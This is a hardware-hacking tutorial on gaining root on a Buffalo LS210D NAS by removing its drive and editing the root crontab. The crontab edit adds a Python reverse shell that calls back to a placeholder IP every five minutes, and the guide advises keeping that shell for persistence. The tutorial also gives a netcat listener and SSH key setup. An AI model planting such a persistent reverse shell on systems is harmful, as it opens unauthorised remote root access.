 How to Hack your Buffalo LS210D and get Root  
Christopher J. Pace and Ryan Miller

The LS210D is a Network Attached Storage (NAS) drive manufactured by Buffalo. Despite having recent vulnerabilities, the NAS drive appears to be well made. One of the best features of this NAS is that it runs Linux, specifically kernel version 3.3.4 (ARM). This means that if you had full root access to the device, you could install additional software or write your own web server. The NAS also comes with Python 2.7.2 and PHP-CGI version 5.3.23, making it the perfect platform for tinkering. However, out-of-the-box, the NAS does not allow full root access or allow SSH connectivity. This guide, part of our research on vulnerabilities for the Buffalo LS210D, is provided for anyone who legitimately owns an LS210D and wishes to have that root access.

Other than firmware tampering, you can also get access to the Buffalo LS210D via an external hard drive reader and a spare PC. You can probably depress the plastic catches on the outside of the NAS drive, but I decided to take a more drastic approach.



Once you have opened your LS210D, you can see that a spinner is mounted into a SATA interface on the system board. Unscrew the screws on the hard drive, and then slide while lifting to remove the hard drive. You can also remove the hard drive bracket, which may make it easier to remove the hard drive. To remove the hard drive bracket, gently rock it back and forth before lifting. There is a thermal pad that sits between the hard drive bracket and the CPU, gently rocking the hard drive bracket will allow you to remove the pad without tearing it.

Inserting the hard drive into a Linux-based PC (or using free ext3 Windows utilities), mount the hard drive. From here, you are looking to modify the file /etc/cron/crontabs/root, where you can add the following two lines at the bottom:

**\*/5 \* \* \* \* /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("YOUR\_IP",8088));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/bash","-i"\]);'**  
**\*/5 \* \* \* \* /usr/sbin/sshd**

Obviously replace the text YOUR\_IP with the IP address of a computer on the same network as the LS210D, making sure to preserve the quotes. The first line spawns a shell via python, and connects to another computer’s netcat session. The second line spawns the SSH service. These commands are ran every 5 minutes, but there is no noticeable impact of having them re-run continuously. If you would like, you can remove the first line once you’ve established a stable SSH session.

Once you’ve written those two lines to the root crontab file, start a netcat session on your PC that is on the same network as the LS210D:

**netcat -l 8088**

Once that command has entered on your PC, put the LS210D back together, and start it up. Once the clock reaches any minute that is divisible by 5, you will have an incoming connection from the NAS to your listening netcat session.



Once you receive the message “bash: no job control in this shell”, you’ll have full root privileges on the NAS. However, netcat is notoriously unstable, so you will want to immediately reset the root password via the ‘passwd’ command. Finally, you need to generate the host SSH keys, via these commands:

**ssh-keygen -t rsa -f /etc/ssh\_host\_rsa\_key -N ""**  
**ssh-keygen -t dsa -f /etc/ssh\_host\_dsa\_key -N ""**  
**ssh-keygen -t dsa -f /etc/ssh\_host\_key -N ""**



Now, after another 5 minutes, you should be able to SSH into the NAS. Make sure to confirm SSH access before terminating your netcat session, to make sure you didn’t mistype your new root password. Enjoy your new root privileges!

**To enable persistence, leave the reverse shell intact. If the Buffalo NAS is shut down improperly or loses power, it will reset the root password back to the default. The reverse shell configuration will enable you to reset the password back to whatever you want.**
